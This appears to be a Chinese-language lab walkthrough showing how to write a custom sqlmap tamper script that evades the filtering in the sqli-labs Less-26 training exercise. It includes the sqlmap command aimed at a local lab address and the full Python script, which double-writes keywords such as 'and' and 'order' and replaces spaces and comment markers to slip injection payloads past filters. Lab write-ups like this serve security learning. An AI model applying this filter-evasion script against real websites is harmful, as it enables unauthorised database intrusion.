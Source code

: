 # sqlmap定制武器tamper脚本编写

- 场景：sqli-labs/less-26

- 经过测试less26会过滤大部分的注入语句，如`or`、`空格`、`and`、`大小写`等，以至于sqlmap都扫不出来，这样我们就需要自己定制一个tamper脚本来完成sql注入了

- sqlmap扫描结果：

  ![image-20240312192937887](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312192937887.png)

  ![](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312192804335.png)

### 使用sqlmap tamper定制脚本

- 进入`/usr/share/sqlmap/tamper`目录创建一个python脚本文件,脚本框架复制`0eunion.py`即可，把tamper内容修改成正则匹配样式，如`re.sub`第一个参数是被替换的内容，第二个参数是替换的内容，第三个替换对象是payload，例如：`payload = re.sub(r"(?i)and","aANDnd",payload)`    :   从pyload中寻找`and `并把它替换成`aANDnd`这样双写的形式

  

  ![image-20240312200850204](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312200850204.png)

### 验证脚本可行性

- 使用`sudo python3 /usr/share/sqlmap/sqlmap.py -u "http://192.168.200.148/sqli-labs-master/Less-26/?id=1" -v 3 --tamper "test_sqli_labs_less26.py"`语句运行sqlmap

  ![image-20240312204044960](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312204044960.png)

- 扫描结果显示了已经有sql注入漏洞了，分别是报错注入，延时注入和联合查询，脚本运行成功

  ![image-20240312204229895](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312204229895.png)

### 源码：

```python
#!/usr/bin/env python
"""
Copyright (c) 2006-2022 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
import re

from lib.core.enums import PRIORITY


__priority__ = PRIORITY.HIGHEST
def dependencies():
    pass

def tamper(payload,**kwargs):
    payload = re.sub(r"(?i)-- "," and '1'='1",payload)
    payload = re.sub(r"(?i)#"," and '1'='1",payload)
    payload = re.sub(r"(?i)and","aANDnd",payload)
    payload = re.sub(r"(?i)order","oORrder",payload)
    payload = re.sub(r"(?i) ","%a0",payload)

    return payload
```

